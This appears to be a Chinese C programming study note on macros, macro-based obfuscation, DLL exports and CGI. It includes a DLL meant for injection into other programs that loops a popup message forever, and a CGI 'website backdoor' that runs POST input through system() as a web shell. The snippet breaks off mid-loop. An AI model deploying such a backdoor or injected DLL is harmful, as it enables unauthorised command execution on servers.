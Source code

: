 ### defind
```
#defind PI 3.14 后面不需要加分号 因为其本质是替换 加了就成了 3.14;   
```


什么都能替换 代码混淆 易语言也是这样的原理

```


#include<stdio.h>
#include<stdlib.h>
#define 给老夫跑起来 main
#define 四大皆空 void 
#define 给老夫打印 printf
#define 给老夫pao system
四大皆空 给老夫跑起来()
{
 给老夫打印("gogogogog");
 给老夫pao("notepad");
 getchar();
}
```
### DLL _declspec
```
#include<stdlib.h>
#include<windows.h>


// _declspec(dllexport) 告诉外部可以调用，没有的话外部不可调用
_declspec(dllexport) void goA() 不需要main函数
{
 while (1)
 {
  MessageBoxA(0, "你在与间谍聊天", "请注意安全", 0);
 }
}
要编译成dll的文件，注入到其他程序中
```
### CGI
CGI：早期动态网页技术使用最多的，发展的比较成熟并且功能强大，但是效率比较低，编程比较困难。目前很少使用CGI做动态网页，主要应用与Linux和Unix操作系统中。
就是web服务器提供的一个可以执行服务器端程序接口的东西，可以用c c++ python 等各来写种语言
一个网站的后门cgi程序，可以执行各种系统的命令，当然用php也可以这样做的
```
void main()
{
    printf("Content-type:text/html\n\n");
    printf("%s<br><br>", getenv("QUERY_STRING"));//打印环境变量
    char szPost[256] = {0};
    gets(szPost);//获取输入
    printf("%s<br><br>", szPost);//获取输入
    //"BBB=tasklist&AAA=%C7%EB%BD%F8
    char *p = szPost + 4;//0,1,2,3
    char *p1 = strchr(szPost, '&');
    *p1 = '\0'; //弄个结束的位置
 
    char cmd[256] = { 0 };
    sprintf(cmd, "%s >1.txt", p);//字符串映射
    system(cmd);
    FILE *pf = fopen("1.txt", "r");
    while (!feof(pf))//如果没有到文件末尾就继续
    {
        char ch = fgetc(pf);
```